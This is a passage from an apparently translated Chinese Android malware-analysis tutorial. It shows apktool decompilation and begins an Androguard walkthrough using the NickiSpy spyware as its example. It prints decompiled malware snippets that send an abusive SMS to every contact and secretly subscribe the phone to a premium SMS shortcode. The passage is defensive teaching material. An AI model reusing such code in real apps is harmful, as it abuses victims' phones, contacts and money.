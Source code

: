 以下代码用于向列表中的所有联系人发送短信：

```
localSmsManager.sendTextMessage(localCursor2.getString(localCursor2.getColumnIndex("data1")), null, "I take pleasure in hurting small animals, just thought you should know that", null, null); 

```

最后，这段代码将用户订阅到 PETA 的短信提醒服务：

```
if (!localCursor2.moveToNext()) 
      { 
        localSmsManager.sendTextMessage("73822", null, "text", null, null); 
        break; 
      } 

```

## 还有更多内容...

如果你精通 **smali**，你可以使用 `apktool` 反编译应用程序并分析 smali 文件中的模式。

要使用 `apktool` 进行反编译，请使用以下命令：

```
**apktool d C:\<path_to_apk>**

```

该命令将创建一个与 APK 名称完全相同的目录，在该目录下我们可以找到反编译后的文件。

# 使用 Androguard 进行恶意软件分析

Androguard 是一个基于 Python 的工具，用于分析 Android 应用程序。它的功能使恶意软件分析变得更加轻松。

在本教程中，我们将介绍 Androguard 及其各种功能。

## 准备工作

确保你的机器上已安装 Python。可以从[`www.python.org/ftp/python/2.7.10/python-2.7.10.msi`](https://www.python.org/ftp/python/2.7.10/python-2.7.10.msi) 下载适用于 Windows 的 Python 2.7.10。所有 Python 版本都可以从[`www.python.org/downloads/`](https://www.python.org/downloads/) 下载。

从 GitHub 下载 Androguard，网址为[`github.com/androguard/androguard`](https://github.com/androguard/androguard)，并将其放在你选择的目录中。

转到 Androguard 目录，并从命令提示符或终端运行以下命令：

```
**Python setup.py install**

```

我们将使用经过重新打包的 NickiSpy 恶意软件作为我们的示例。

NickiSpy 在 2011 年左右获得了相当大的声誉。它将通话记录保存到设备的 SD 卡，并将设备的 IMEI 发送到中国的一个电话号码。此外，它还记录了设备的 GPS 坐标，并与位于中国的远程服务器建立连接。
